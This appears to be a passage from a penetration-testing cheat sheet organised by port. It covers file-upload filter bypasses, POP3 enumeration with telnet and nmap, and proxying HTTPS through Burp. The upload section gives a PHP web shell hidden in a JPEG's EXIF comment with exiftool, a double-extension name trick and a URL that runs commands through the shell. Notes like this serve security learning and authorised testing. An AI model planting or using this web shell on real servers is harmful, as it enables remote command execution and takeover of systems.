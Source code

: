 ### File Uploader

If there’s some file upload we can right away go opening Burp Suite. The idea is to fool the system into thinking that we are uploading a legitimate file, but not really. Many times we can pass through the restrictions by introducing our code at the end of a file. Changing the extension but keeping the original file.

An example is to upload a photo with embedded PHP. To do it is as easy as to introduce our PHP code at the end of the image. But sometimes this won’t work, so another way is to put an EXIF comment with code with:

```
exiftool -Comment='<?php system($_REQUEST['cmd']); ?>' test.jpg
```

And change the name of the file `test.jpg` to `test.php.jpg` as Apache server interprets both extensions. So you can execute:

```
http://somepage.com/media/uploads/test.php.jpg?cmd=uname -a
```

### APIs

Another vulnerability factor is **APIs**, they are usually on different ports but if we find one, looking at the documentation and looking for its exploits should be sufficient.

## 110 - POP3

Mail Server.

Enumeration: 

```bash
# To connect
telnet <IP> 110

# Commands:
USER <user>
PASS <pass>

LIST #List messages
RETR #Retrieve messages
QUIT
```

```bash
nmap --script=pop3* <IP>
```

We can use *Evolution* application to read mails.

## 443 - HTTPS

Everything is the same as HTTP but when using Burp, you have to download the certificate of Burp opening a new window: *`http://burp`*.
